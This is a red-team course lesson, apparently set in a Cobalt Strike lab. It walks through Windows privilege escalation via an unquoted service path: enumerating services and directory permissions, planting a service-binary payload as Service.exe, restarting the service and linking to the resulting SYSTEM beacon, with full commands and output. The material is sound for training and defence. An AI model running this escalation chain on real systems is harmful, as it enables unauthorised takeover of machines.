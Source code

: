 An unquoted service path is where the path to the service binary is not wrapped in quotes. Why is that a problem? By itself it's not, but under specific conditions it can lead to an elevation of privilege.

WMI can be used to pull a list of every service and the path to its executable. Here are some examples:
```
beacon> run wmic service get name, pathname

Name                    PathName
ALG                     C:\Windows\System32\alg.exe
AppVClient              C:\Windows\system32\AppVClient.exe
Sense                   "C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"
[...snip...]
VulnService1            C:\Program Files\Vulnerable Services\Service 1.exe
```
  

We can see that the paths for ALG and AppVClient are not quoted, but the path for Sense is. The difference is that this latter path has _spaces_ in them. VulnService1 has spaces in the path _and_ is also not quoted - this is condition #1 for exploitation.

When Windows attempts to read the path to this executable, it interprets the space as a terminator. So, it will attempt to execute the following (in order):

1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Services\Service.exe`

If we can drop a binary into any of those paths, the service will execute it before the real one. Of course, there's no guarantee that we have permissions to write into either of them - this is condition #2.

The PowerShell `Get-Acl` cmdlet will show the permissions of various objects (including files and directories).
```
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  CreateFiles, Synchronize
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  -1610612736
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -1610612736
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  -1610612736
Audit  : 
Sddl   : O:BAG:DUD:AI(A;;0x100002;;;BU)(A;ID;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;CII
         OID;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;ID;FA;;;SY)(A;OICIIOID;GA;;;SY)(A;I
         D;FA;;;BA)(A;OICIIOID;GA;;;BA)(A;ID;0x1200a9;;;BU)(A;OICIIOID;GXGR;;;BU)(A;OICIIOID;GA;;;CO)(A;ID;0x1200a9;;;A
         C)(A;OICIIOID;GXGR;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)(A;OICIIOID;GXGR;;;S-1-15-2-2)
```
  

We can see from the output that _BUILTIN\Users_ have _CreateFiles_ privilege on the `C:\Program Files\Vulnerable Services` directory, which means we can upload a malicious binary to hijack this unquoted path.

SharpUp will also list any services that match these conditions.

beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath

=== SharpUp: Running Privilege Escalation Checks ===

=== Services with Unquoted Paths ===
	Service 'VulnService1' (StartMode: Automatic) has executable 'C:\Program Files\Vulnerable Services\Service 1.exe', but 'C:\Program Files\Vulnerable Services\Service' is modifable.

  

Payloads to abuse services must be specific "service binaries", because they need to interact with the Service Control Manager.  When using the "Generate All Payloads" option, these have svc in the filename.

  I recommend the use of TCP beacons bound to localhost only for privilege escalations.

  
```
beacon> cd C:\Program Files\Vulnerable Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe

beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
 290kb    fil     03/03/2021 11:11:27   Service.exe

beacon> run sc stop VulnService1

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

beacon> run sc start VulnService1

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4384
        FLAGS              : 
```
  

  Standard users cannot stop or start services by default, so you would usually need to wait for a computer reboot.  This privilege has been granted in the lab for quality of life.

  

When you start the service, you'll see its state will be **START_PENDING**.  If you then check its status with `sc query VulnService1`, you'll see it will be **STOPPED**.  This is by design.  You will also not see a Beacon appear in the UI automatically.  But you should see the port you used in your TCP listener configuration (in my case 4444) is now listening on 127.0.0.1.
```
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```
  

The Beacon is waiting for us to connect to it, which we do with the `connect` command.
```
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/2ec/f3a/577/system-beacon.png)

  

To restore the service, simply delete `Service.exe` and restart the service.